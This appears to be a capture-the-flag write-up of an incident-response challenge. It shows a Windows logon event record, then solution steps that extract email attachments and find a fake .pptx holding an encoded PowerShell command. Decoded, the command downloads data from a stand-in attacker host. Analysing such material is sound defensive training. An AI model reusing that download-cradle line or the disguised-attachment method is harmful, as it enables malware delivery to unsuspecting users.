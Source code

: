     {"PayloadData1": "Target: OOPS.NET\\chambers.jennifer", "PayloadData2": "LogonType 3", "PayloadData3": "LogonId: 0X33946D", "UserName": "-\\-", "RemoteHost": "- (10.210.95.77)", "ExecutableInfo": "-", "MapDescription": "Successful logon", "ChunkNumber": 0, "Computer": "OOPS-DC.oops.net", "Payload": "{\"EventData\": {\"Data\": [{\"@Name\": \"SubjectUserSid\", \"#text\": \"S-1-0-0\"}, {\"@Name\": \"SubjectUserName\", \"#text\": \"-\"}, {\"@Name\": \"SubjectDomainName\", \"#text\": \"-\"}, {\"@Name\": \"SubjectLogonId\", \"#text\": \"0x0\"}, {\"@Name\": \"TargetUserSid\", \"#text\": \"S-1-5-21-3521346-774097835-5683131894-1126\"}, {\"@Name\": \"TargetUserName\", \"#text\": \"chambers.jennifer\"}, {\"@Name\": \"TargetDomainName\", \"#text\": \"OOPS.NET\"}, {\"@Name\": \"TargetLogonId\", \"#text\": \"0X33946D\"}, {\"@Name\": \"LogonType\", \"#text\": \"3\"}, {\"@Name\": \"LogonProcessName\", \"#text\": \"Kerberos\"}, {\"@Name\": \"AuthenticationPackageName\", \"#text\": \"Kerberos\"}, {\"@Name\": \"WorkstationName\", \"#text\": \"-\"}, {\"@Name\": \"LogonGuid\", \"#text\": \"c5dfa92b-9ee6-4b7b-9029-207959f780e7\"}, {\"@Name\": \"TransmittedServices\", \"#text\": \"-\"}, {\"@Name\": \"LmPackageName\", \"#text\": \"-\"}, {\"@Name\": \"KeyLength\", \"#text\": \"0\"}, {\"@Name\": \"ProcessId\", \"#text\": \"0x0\"}, {\"@Name\": \"ProcessName\", \"#text\": \"-\"}, {\"@Name\": \"IpAddress\", \"#text\": \"10.210.95.77\"}, {\"@Name\": \"IpPort\", \"#text\": \"39845\"}, {\"@Name\": \"ImpersonationLevel\", \"#text\": \"%%1833\"}, {\"@Name\": \"RestrictedAdminMode\", \"#text\": \"-\"}, {\"@Name\": \"TargetOutboundUserName\", \"#text\": \"-\"}, {\"@Name\": \"TargetOutboundDomainName\", \"#text\": \"-\"}, {\"@Name\": \"VirtualAccount\", \"#text\": \"%%1843\"}, {\"@Name\": \"TargetLinkedLogonId\", \"#text\": \"0x0\"}, {\"@Name\": \"ElevatedToken\", \"#text\": \"%%1842\"}]}}", "Channel": "Security", "Provider": "Microsoft-Windows-Security-Auditing", "EventId": 4624, "EventRecordId": "5378", "ProcessId": 693, "ThreadId": 5958, "Level": "LogAlways", "Keywords": "Audit success", "SourceFile": "C:\\Windows\\system32\\winevt\\Logs\\Security.evtx", "ExtraDataOffset": 0, "HiddenRecord": false, "TimeCreated": "2021-03-16T12:09:22.6771601+00:00", "RecordNumber": "5378"}

    ```

5. **LogonId: 0X33946D**

# Task 3
With the provided information, OOPS was quickly able to identify the employee associated with the account. During the incident response interview, the user mentioned that they would have been checking email around the time that the communication occurred. They don't remember anything particularly weird from earlier, but it was a few weeks back, so they're not sure. OOPS has provided a subset of the user's inbox from the day of the communication.

Identify the message ID of the malicious email and the targeted server.

Downloads:
- User's emails (emails.zip)

# Solution
1. unzip emails
2. use ripmime to extract all the attachments
	a. for i in *; do ripmime -i $i -d attachment_$i; done;
3. further see what kind of attachments are within each email message
	a. file attachment*/*
4. oh the oopsie_update.pptx is not actually a powerpoint file... it's ASCII text
5. cat oopsie_update.pptx and see a powershell command to an "-enc" which sends a base64 string (which we know because of the "==" at the end
6. use cyberchef to decode the bas64 to see:
	$bytes = (New-Object Net.WebClient).DownloadData('http://xomtq.invalid/analysis')
